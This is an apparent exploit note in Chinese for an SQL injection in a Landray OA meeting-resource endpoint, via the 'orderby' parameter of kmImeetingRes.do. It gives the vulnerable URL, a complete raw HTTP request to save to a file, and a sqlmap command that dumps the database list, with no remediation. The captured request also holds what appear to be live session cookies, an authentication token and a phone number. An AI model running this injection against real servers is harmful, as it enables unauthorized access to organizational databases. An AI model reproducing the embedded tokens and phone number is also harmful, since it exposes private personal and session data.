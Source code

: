 <languages />

漏洞影响
--------

2021-3-24 前版本

漏洞利用
--------

存在SQL注入的 Url为:

    https://xxx.xxx.xxx.xxx/km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true

其中存在SQL注入的参数为 ordeby ， 数据包如下:

    GET /km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Connection: keep-alive
    sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
    sec-ch-ua-mobile: ?0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: cross-site
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Dest: document
    Accept-Encoding: gzip, deflate, br
    Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
    Cookie: UM_distinctid=1785f7392888e1-02ece8c7e9a996-5771031-1fa400-1785f73928943d; landray_danyuan=null; landray_guanjianci=null; landray_sorce=baidupinzhuanwy; landray_jihua=null; Hm_lvt_223eecc93377a093d4111a2d7ea28f51=1616509114,1616566341,1616566350; Hm_lpvt_223eecc93377a093d4111a2d7ea28f51=1616566350; Hm_lvt_d14cb406f01f8101884d7cf81981d8bb=1616509114,1616566341,1616566350; j_lang=zh-CN; Hm_lvt_95cec2a2f107db33ad817ed8e4a3073b=1616510026,1616566523; Hm_lvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616509969,1616509973,1616566507,1616568455; Hm_lpvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616568455; Hm_lpvt_d14cb406f01f8101884d7cf81981d8bb=1616568455; Hm_lvt_22f1fea4412727d23e6a998a4b46f2ab=1616509969,1616509973,1616566507,1616568455; Hm_lpvt_22f1fea4412727d23e6a998a4b46f2ab=1616568455; fd_name=%E5%95%8A%E7%9A%84%E5%93%88; fd_id=1785f817dd0f5a4beaa482646cb9a2d8; nc_phone=15572002383; add_customer=0; JSESSIONID=F4A2DFFF611470A0AA00C1B4CEB0800B; LtpaToken=AAECAzYwNUI0NTRBNjA1QkVFMEFsaXd3MjYdcI6ajDXZSNpXOsKhMSNAGaQ=; original_name=16b53df64e78c7c0ab2d4e54165a6415; roletype=%E6%A8%A1%E5%9D%97%E7%AE%A1%E7%90%86%E5%91%98; Hm_lpvt_95cec2a2f107db33ad817ed8e4a3073b=1616594251

保存为文件，使用 Sqlmap 注入:

    sqlmap -r sql.txt -p orderby --dbs

参考
----

<https://mp.weixin.qq.com/s/jnmB8h9UCztt-FL3aKmn0g>